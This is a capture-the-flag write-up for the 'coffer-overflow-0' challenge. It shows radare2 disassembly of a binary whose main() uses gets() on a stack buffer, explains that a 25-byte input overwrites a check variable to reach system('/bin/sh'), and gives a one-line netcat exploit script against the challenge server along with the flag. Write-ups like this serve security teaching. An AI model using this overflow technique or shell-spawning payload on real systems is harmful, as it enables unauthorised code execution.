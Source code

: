 # coffer-overflow-0

## Description

NotDeGhost

Can you fill up the coffers? We even managed to find the source for you.

## Solution

```asm
[0x00400590]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x00400590]> afl
0x00400590    1 42           entry0
0x004005d0    4 42   -> 37   sym.deregister_tm_clones
0x00400600    4 58   -> 55   sym.register_tm_clones
0x00400640    3 34   -> 29   sym.__do_global_dtors_aux
0x00400670    1 7            entry.init0
0x00400780    1 2            sym.__libc_csu_fini
0x00400784    1 9            sym._fini
0x00400710    4 101          sym.__libc_csu_init
0x004005c0    1 2            sym._dl_relocate_static_pie
0x00400677    3 143          main
0x00400560    1 6            sym.imp.setbuf
0x00400550    1 6            sym.imp.puts
0x00400580    1 6            sym.imp.gets
0x00400570    1 6            sym.imp.system
0x00400528    3 23           sym._init
[0x00400590]> pdf @ main
            ; DATA XREF from entry0 @ 0x4005ad
┌ 143: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x20
│           ; var uint32_t var_8h @ rbp-0x8
│           0x00400677      55             push rbp
│           0x00400678      4889e5         mov rbp, rsp
│           0x0040067b      4883ec20       sub rsp, 0x20
│           0x0040067f      48c745f80000.  mov qword [var_8h], 0
│           0x00400687      488b05d20920.  mov rax, qword [obj.stdout] ; obj.stdout__GLIBC_2.2.5
│                                                                      ; [0x601060:8]=0
│           0x0040068e      be00000000     mov esi, 0                  ; char *buf
│           0x00400693      4889c7         mov rdi, rax                ; FILE *stream
│           0x00400696      e8c5feffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x0040069b      488b05ce0920.  mov rax, qword [obj.stdin]  ; obj.stdin__GLIBC_2.2.5
│                                                                      ; [0x601070:8]=0
│           0x004006a2      be00000000     mov esi, 0                  ; char *buf
│           0x004006a7      4889c7         mov rdi, rax                ; FILE *stream
│           0x004006aa      e8b1feffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x004006af      488b05ca0920.  mov rax, qword [obj.stderr] ; obj.stderr__GLIBC_2.2.5
│                                                                      ; [0x601080:8]=0
│           0x004006b6      be00000000     mov esi, 0                  ; char *buf
│           0x004006bb      4889c7         mov rdi, rax                ; FILE *stream
│           0x004006be      e89dfeffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x004006c3      488d3dce0000.  lea rdi, str.Welcome_to_coffer_overflow__where_our_coffers_are_overfilling_with_bytes ; 0x400798 ; "Welcome to coffer overflow, where our coffers are overfilling with bytes ;)" ; const char *s
│           0x004006ca      e881feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006cf      488d3d120100.  lea rdi, str.What_do_you_want_to_fill_your_coffer_with ; 0x4007e8 ; "What do you want to fill your coffer with?" ; const char *s
│           0x004006d6      e875feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006db      488d45e0       lea rax, [s]
│           0x004006df      4889c7         mov rdi, rax                ; char *s
│           0x004006e2      e899feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004006e7      48837df800     cmp qword [var_8h], 0
│       ┌─< 0x004006ec      7411           je 0x4006ff
│       │   0x004006ee      488d3d1e0100.  lea rdi, str.bin_sh         ; 0x400813 ; "/bin/sh" ; const char *string
│       │   0x004006f5      b800000000     mov eax, 0
│       │   0x004006fa      e871feffff     call sym.imp.system         ; int system(const char *string)
│       │   ; CODE XREF from main @ 0x4006ec
│       └─> 0x004006ff      b800000000     mov eax, 0
│           0x00400704      c9             leave
└           0x00400705      c3             ret
[0x00400590]>
```

Important things to note here:

 - `0x004006ee` calls `system` with the parameter `"/bin/sh"`, which spawns a shell.
 - `0x004006ec` includes instructions to jump and skip the above system call if `[var_8h]` is equal to 0 and `[var_8h]` is set to 0 at the start of the program.
 - `0x004006e2` includes an unsafe call to `gets` and sets the value of `s`.
 - `s` is placed on the stack after `[var_8h]`, allowing the call to `gets` to write to both variables.

The difference between `s` and `[var_8h]` is 0x20 - 0x8 bytes, or 24 bytes.
Therefore, writing 25 bytes is enough to alter the value of `[var_8h]`.

To prevent the program from exitting, we can use `cat` to direct `stdin` to `stdout` and pipe that to the program along with our payload.
This will allow us to type bash commands and read files such as `flag.txt` which contains our flag.

## Exploit Script

```sh
#!/bin/bash

(echo aaaaaaaaaaaaaaaaaaaaaaaaa; cat) | nc 2020.redpwnc.tf 31199
```

## Flag

```flag{b0ffer_0verf10w_3asy_as_123}```

